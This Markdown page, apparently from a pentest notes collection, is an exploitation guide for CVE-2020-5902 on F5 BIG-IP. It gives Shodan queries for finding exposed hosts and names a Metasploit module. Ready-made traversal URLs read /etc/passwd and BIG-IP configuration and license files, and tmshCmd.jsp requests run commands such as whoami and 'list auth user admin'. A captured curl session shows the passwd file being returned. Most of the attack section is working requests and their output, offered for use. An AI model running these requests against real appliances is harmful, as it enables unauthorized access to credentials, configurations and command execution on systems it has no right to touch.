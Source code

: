 ```yaml
---
title : "CVE-2020-5902"
# pre : ' '
description : "In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages."
date : 2020-07-06T10:28:07+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2020-5902 - F5 BIG-IP TMUI RCE

### Shodan search

```plain
title:"Big-IP&reg;" org:"Organization Name"
http.title:"BIG-IP&reg;- Redirect" org:"Organization Name"
http.favicon.hash:-335242539 "3992" org:"Organization Name"
```

### Metasploit module

```plain
modules/exploits/linux/http/f5_bigip_tmui_rce.rb
```

### Validate interface accessible

You need to get a 200OK on the following request.

```plain
curl -v -k  'https://{host}/tmui/login.jsp'
```

### Check (Local File Inclusion)

Interesting files:

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://{host}/tmui/login.jsp/..;/tmui/system/user/authproperties.jsp
https://{host}/tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=jaffa
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

### RCE

```plain
https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
```

```plain
curl -v -k  'https://{host}/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'
```

### Example RCE

```plain
$ curl -v -k 'https://10.10.10.10/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'
*   Trying 10.10.10.10:443...
* TCP_NODELAY set
* Connected to 10.10.10.10 (10.10.10.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*   CAfile: /etc/ssl/certs/ca-certificates.crt
  CApath: /etc/ssl/certs
* TLSv1.3 (OUT), TLS handshake, Client hello (1):
* TLSv1.3 (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES256-GCM-SHA384
* ALPN, server did not agree to a protocol
[...]
> GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd HTTP/1.1
> Host: 10.10.10.10
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 06 Jul 2020 09:08:33 GMT
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Set-Cookie: JSESSIONID=E3418E061E43DC67AC2E9D59A4E42FC2; Path=/tmui; Secure; HttpOnly
< Content-Type: text/html;charset=ISO-8859-1
< Content-Length: 7630
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Vary: Accept-Encoding
<

{"output":"root:x:0:0:root:\/root:\/bin\/bash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucp:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/sbin\/nologin\nnobody:x:99:99:Nobody:\/:\/sbin\/nologin\ntmshnobody:x:32765:32765:tmshnobody:\/:\/sbin\/nologin\nadmin:x:0:500:Admin User:\/home\/admin:[...]
```

### URL list

* [Nnd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2020-5902)
* [Support.f5.com](https://support.f5.com/csp/article/K52145254)
* [Cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5902)
* [Tenable.com](https://www.tenable.com/cve/CVE-2020-5902)

